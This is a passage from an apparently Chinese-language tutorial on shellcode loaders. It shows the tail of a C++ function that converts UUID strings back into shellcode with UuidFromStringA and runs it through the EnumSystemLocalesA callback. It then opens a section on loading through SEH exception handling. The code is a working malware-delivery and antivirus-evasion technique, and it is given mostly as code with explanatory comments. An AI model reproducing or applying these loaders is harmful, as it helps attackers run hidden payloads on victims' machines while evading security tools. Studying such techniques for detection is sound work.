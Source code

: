 ```cpp
    
    PBYTE buffer_backup = (PBYTE)buffer;  //定义一个存储uuid转换成的二进制字节序列(shellcode)
    int elems = sizeof(uuids) / sizeof(uuids[0]);  //获取uuid数组元素的个数

    /*
    UuidFromStringA函数将UUID值转换成二进制字节序列,其语法格式如下:
    RPC_STATUS UuidFromStringA(
        RPC_CSTR StringUuid,  //指向uuid形式的字符串的指针
        UUID * Uuid  //用于接收二进制字节序列的指针
    );
    */
    // 遍历uuids数组,并将UUID转换回原始的shellcode,然后存储在buffer_backup地址
    for (int i = 0; i < elems; i++) {
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)buffer_backup);
        if (status != RPC_S_OK) {
            cout << "UuidFromStringA() != S_OK" << endl;
            CloseHandle(buffer);
            return -1;
        }
        buffer_backup += 16;  
    }
    
    /*
   EnumSystemLocalesA函数用于枚举系统中支持的所有区域设置,其语法格式如下:
   BOOL EnumSystemLocalesA(
     LOCALE_ENUMPROCA lpLocaleEnumProc,  //处理每个枚举到的区域设置信息的回调函数的地址
     DWORD            dwFlags  //指定枚举的方式
   );
   */
    // 使用 EnumSystemLocalesA 函数调用转换回的 shellcode
    EnumSystemLocalesA((LOCALE_ENUMPROCA)buffer, 0);

    // 关闭内存句柄
    CloseHandle(buffer);
}

void main() {
    
    // 调用 UuidLoader 函数
    UuidLoader();
}
```



# 9.基于SEH异常处理

## 什么是SEH

SEH（Structured Exception Handling，结构化异常处理）是Windows操作系统中的一种错误处理和异常处理机制。SEH提供了一种强大、灵活且通用的方法来处理异常，它使得开发者能够为应用程序中发生的运行时错误和异常编写自定义的处理代码
